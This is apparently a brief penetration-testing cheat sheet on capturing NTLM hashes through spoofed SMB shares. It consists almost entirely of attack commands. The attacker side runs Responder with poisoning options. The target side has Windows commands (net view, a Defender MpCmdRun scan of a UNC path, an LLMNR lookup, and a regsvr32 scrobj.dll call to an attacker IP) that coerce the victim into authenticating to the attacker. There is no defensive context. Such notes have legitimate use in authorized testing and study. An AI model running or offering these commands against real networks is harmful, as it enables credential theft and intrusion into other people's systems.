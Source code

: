 # 01 - Capture Hashes via Spoof SMB Shares

Search Tag: #mitm #responder #smb #relay #ntlm

## 1.1 - Attacker

`$ sudo responder -I <interface> -rdwv`

## 1.2 - Target

`C:\> net view \\snare`

`C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt`

`PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null`

`C:\> regsvr32.exe /s /u /i://<attacker_IP>/@snare scrobj.dll`